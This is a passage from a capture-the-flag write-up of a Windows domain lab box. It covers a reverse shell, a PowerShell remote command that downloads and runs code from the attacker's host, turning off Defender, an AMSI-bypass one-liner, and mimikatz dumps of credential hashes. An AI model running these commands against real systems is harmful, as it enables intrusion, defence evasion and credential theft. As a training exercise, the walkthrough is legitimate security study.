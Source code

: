 This gets us a reverse shell on the DC and allows us to read the user flag on `imonk`‘s desktop.

```
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.145] 52904
[>] hostname
ATSSERVER
[>] whoami
acute\imonks
```

## Root

Another file on the desktop of imonk is wm.ps1, where we just have to modify the command to go back to Acute-PC01 with administrator privileges:

```
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock { iex(iwr http://10.10.14.7/run.txt -usebasicparsing) } -ComputerName Acute-PC01 -Credential $creds
...
[>] whoami
acute\jmorgan
[>] whoami /groups
...
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
```

We can now disable AV & use mimikatz to dump the hashes on the system:

```
Add-MpPreference -ExclusionPath C:\temp
Set-MpPreference -DisableRealtimeMonitoring $true
iwr http://10.10.14.7/drop/mimikatz.exe -outfile mimikatz.exe

# bypass AMSI
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils"){$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

.\mimikatz.exe "token::elevate" "privilege::debug" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
.\mimikatz.exe "token::elevate"  "lsadump::sam" "exit"
...
ACUTE-PC01$:   ea9815114ac78cdbb69ab9a39df66d73
Natasha:       29ab86c5c4d2aab957763e5c1720486d
Administrator: a29f7623fd11550def0192de9246f46b (cracks to Password@123)
```
